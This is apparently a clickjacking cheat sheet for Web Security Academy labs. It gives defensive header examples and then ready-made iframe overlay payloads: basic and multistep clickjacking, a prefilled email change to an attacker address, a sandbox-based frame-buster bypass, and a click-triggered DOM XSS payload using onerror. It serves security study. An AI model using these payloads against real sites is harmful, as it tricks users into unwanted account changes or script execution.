 # Clickjacking

## Will not work if can se these **headers**:

### X-Frame-Options:

		DENY: Prevents the site from being embedded in any iframe.
		SAMEORIGIN: Allows embedding only if the parent page is from the same origin.
		ALLOW-FROM <URL>: (Less common, partially deprecated) Allows embedding only from a specific origin.

### Content-Security-Policy (CSP):

		frame-ancestors 'none': Completely blocks framing of the page.
		frame-ancestors 'self': Only allows embedding from the same origin.
		frame-ancestors <URL>: Allows embedding only from specified sources.
  
### Example:

```
X-Frame-Options: DENY

Content-Security-Policy: frame-ancestors 'none';
```

## Basic:
```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Basic clickjacking with CSRF token protection

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

## Clickjacking with a frame buster script

```
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.5;
        z-index: 2;
    }
    div {
        position:absolute;
        top:300px;
        left:60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe sandbox="allow-forms"
src="YOUR-LAB-ID.web-security-academy.net/my-account?email=hacker@attacker-website.com"></iframe>
```

**Frame Busters** are JavaScript that can block clickjacking. 
An effective attacker workaround against frame busters is to use the HTML5 iframe sandbox attribute. 
Use the **allow-forms** or **allow-scripts** values and the **allow-top-navigation**:
`<iframe id="victim_website" src="https://victim-website.com" sandbox="allow-forms"></iframe>`

## Exploiting clickjacking vulnerability to trigger DOM-based XSS

This lab contains an XSS vulnerability that is triggered by a click.

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
	div {
		position:absolute;
		top:610px;
		left:80px;
		z-index: 1;
	}
</style>
<div>Test me</div>
<iframe
src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attacker-website.com&subject=test&message=test#feedbackResult"></iframe>
```

## Multistep clickjacking

```
<style>
	iframe {
		position:relative;
		width:700px;
		height: 500px;
		opacity: 0.5;
		z-index: 2;
	}
   .firstClick, .secondClick {
		position:absolute;
		top:330px;
		left:50px;
		z-index: 1;
	}
   .secondClick {
		top:330px;
		left:50px;
	}
</style>
<div class="firstClick">Test me first</div>
<div class="secondClick">Test me next</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

## Scanning for clickjacking vulnerabilities

If you're using Burp Suite Professional, you can use Burp Scanner to test for clickjacking vulnerabilities:

    Open your target web page in Burp's browser. In this example, we're going to use the My account page of our fictional blog.
    In Proxy > HTTP history, right-click the requests you want to test, then click Do active scan.
    When the scan has finished, go to the Dashboard tab and select the scan from the Tasks list. In the main panel, go to the Issues tab to identify any 	Frameable response issues that Scanner found. These indicate that your target web page is vulnerable to clickjacking attacks.

https://portswigger.net/burp/documentation/desktop/testing-workflow/testing-for-clickjacking

